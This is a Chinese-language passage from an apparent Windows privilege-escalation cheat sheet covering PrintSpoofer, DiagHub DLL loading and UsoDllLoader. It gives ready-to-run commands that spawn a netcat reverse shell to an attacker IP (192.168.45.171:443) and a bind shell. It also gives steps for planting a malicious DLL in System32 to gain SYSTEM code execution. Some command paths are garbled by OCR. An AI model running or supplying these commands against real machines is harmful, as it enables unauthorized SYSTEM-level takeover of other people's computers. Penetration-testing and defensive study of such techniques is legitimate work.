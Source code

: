 ###  PrintSpoofer（打印机漏洞）

> 如果启用了SeImpersonatePrivilege，此方法有效

* 可在此处获取二进制文件：https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0

```powershell
# 运行 nc -lnvp 443 然后：
.\PrintSpoofer64.exe -c "C:\Temp
c64.exe 192.168.45.171 443 -e cmd"
# 不使用监听器
.\PrintSpoofer64.exe -i -c cmd
# 通过RPD
.\PrintSpoofer64.exe -d 3 -c "powershell -ep bypass"
```

## EoP - 特权文件写入

### DiagHub

:warning: 从1903版本开始，DiagHub不能再用来加载任意DLL。

微软诊断中心标准收集服务（DiagHub）是一个收集跟踪信息的服务，通过DCOM程序化地暴露。
这个DCOM对象可以用来将DLL加载到SYSTEM进程中，前提是此DLL存在于`C:\Windows\System32`目录中。

#### 利用方法

1. 创建一个[恶意DLL](https://gist.github.com/xct/3949f3f4f178b1f3427fae7686a2a9c0)，例如：payload.dll并将其移动到`C:\Windows\System32`
2. 构建 https://github.com/xct/diaghub
3. `diaghub.exe c:\\ProgramData\\ payload.dll`

默认有效载荷将运行`C:\Windows\System32\spool\drivers\color
c.exe -lvp 2000 -e cmd.exe`

替代工具：

* https://github.com/Accenture/AARO-Bugs/tree/master/CVE-2020-5825/TrigDiag
* https://github.com/decoder-it/diaghub_exploit

### UsoDLLLoader

:warning: 2020-06-06更新：此技巧在最新版本的Windows 10预览版中不再有效。

> 由James Forshaw（又名@tiraniddo）发现的DiagHub DLL加载“漏洞”的替代方法

如果我们在Windows或某些第三方软件中发现了一个特权文件写入漏洞，我们可以将自己的`windowscoredeviceinfo.dll`复制到`C:\Windows\Sytem32\`，然后通过USO服务加载它，以获得**NT AUTHORITY\System**的任意代码执行权限。

#### 利用方法

1. 构建 https://github.com/itm4n/UsoDllLoader
   * 选择Release配置和x64架构。
   * 构建解决方案。
     * DLL .\x64\Release\WindowsCoreDeviceInfo.dll
     * 加载器 .\x64\Release\UsoDllLoader.exe.
2. 将`WindowsCoreDeviceInfo.dll`复制到`C:\Windows\System32\`
3. 使用加载器等待shell出现或运行`usoclient StartInteractiveScan`并连接到1337端口的绑定shell。
